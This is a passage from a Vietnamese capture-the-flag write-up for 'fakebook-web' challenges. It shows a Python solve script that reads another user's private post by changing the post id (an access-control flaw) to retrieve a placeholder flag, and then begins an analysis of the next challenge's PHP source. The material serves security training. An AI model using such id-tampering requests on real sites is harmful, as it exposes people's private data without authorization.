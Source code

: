 ```python

print(response.text) # verify

# đăng bài viết ở dạng riêng tư -> public = 0
data_content = {
    'content': 'cuong',
    'public': 0
}

response = session.post(
    url + '/post.php?action=create',
    data=data_content,
    verify=False,
)

print(response.text) # verify

# hiển thị bài đăng có id là 000003 của crush
response = session.get(
    url + '/post.php?action=read&id=3',
    verify=False,
)

print(response.text) # hiển thị response có flag
```

![image](https://hackmd.io/_uploads/BJ7iytXFp.png)

![image](https://hackmd.io/_uploads/HJJ3kFmKp.png)

và có được flag: **CBJS{FAKE_FLAG_FAKE_FLAG}**

## fakebook-web-2

![image](https://hackmd.io/_uploads/S1jztPmFT.png)

### - Phân tích:

source post.php:

```php
<?php
include('libs/auth.php');
include('libs/db.php');

header('Content-Type: application/json');

$user_id = $_SESSION['user_id'];

if (!isset($_GET['action']))
    die(json_encode("Error"));

switch ($_GET['action']) {
    case 'list_posts':
        $res = select_all(
            'SELECT post_id, public FROM posts WHERE author_id = ?',
            $user_id
        );
        echo json_encode($res);
        break;
    case 'read':
        $post = select_one(
            'SELECT content, public, author_id FROM posts WHERE post_id = ?',
```